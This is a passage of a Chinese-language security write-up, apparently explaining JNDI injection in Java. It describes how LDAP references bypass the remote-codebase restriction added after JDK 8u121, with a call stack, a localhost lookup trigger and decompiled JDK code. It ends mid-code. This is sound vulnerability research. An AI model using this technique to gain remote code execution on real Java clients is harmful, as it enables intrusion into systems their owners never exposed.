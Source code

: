 ```
com.sun.jndi.rmi.object.trustURLCodebase
```



是否为true，而其在121版本及后，默认为false，也就是说，在jdk8u121之后，我们就没办法通过rmi协议实现JNDI注入打客户端了。

#### LDAP通过Reference加载远程代码

那么，有没有其他办法绕过远程代码加载的保护机制呢？

有，使用ldap协议的JNDI，具体怎么搭这样的一个服务这里就不讲了，marshalsec也有现成的，我们这里只试试对客户端的攻击，并看看客户端做了什么事情吧。

大概触发RCE的执行栈是这样的：

```
getObjectFactoryFromReference:146, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
main:17, JndiAttackLookup (com.threedr3am.bug.rmi.client)
```

在jdk191以前的版本里面，我并没有找到相关类似远程代码信任机制的东西，也就是说，通过ldap协议的jndi服务方式，在jdk8u121后，能通过ldap协议实现JNDI注入打客户端：

```
new InitialContext().lookup("ldap://127.0.0.1:1099/Calc")
```



具体原理，从“com.sun.jndi.ldap.LdapCtx#c_lookup”可以发现：

```
static final String[] JAVA_ATTRIBUTES = new String[]{"objectClass", "javaSerializedData", "javaClassName", "javaFactory", "javaCodeBase", "javaReferenceAddress", "javaClassNames", "javaRemoteLocation"};
if (((Attributes)var4).get(Obj.JAVA_ATTRIBUTES[2]) != null) {
    var3 = Obj.decodeObject((Attributes)var4);
}
```



在解析LDAP服务返回的attributes的时候，如果存在javaClassName这个attribute的话，就会进入到“com.sun.jndi.ldap.Obj#decodeObject”的代码逻辑中：

```
static Object decodeObject(Attributes var0) throws NamingException {
    String[] var2 = getCodebases(var0.get(JAVA_ATTRIBUTES[4]));

    try {
        Attribute var1;
        if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {
            ClassLoader var3 = helper.getURLClassLoader(var2);
            return deserializeObject((byte[])((byte[])var1.get()), var3);
        } else if ((var1 = var0.get(JAVA_ATTRIBUTES[7])) != null) {
            return decodeRmiObject((String)var0.get(JAVA_ATTRIBUTES[2]).get(), (String)var1.get(), var2);
        } else {
            var1 = var0.get(JAVA_ATTRIBUTES[0]);
            return var1 == null || !var1.contains(JAVA_OBJECT_CLASSES[2]) && !var1.contains(JAVA_OBJECT_CLASSES_LOWER[2]) ? null : decodeReference(var0, var2);
        }
    } catch (IOException var5) {
        NamingException var4 = new NamingException();
        var4.setRootCause(var5);
        throw var4;
```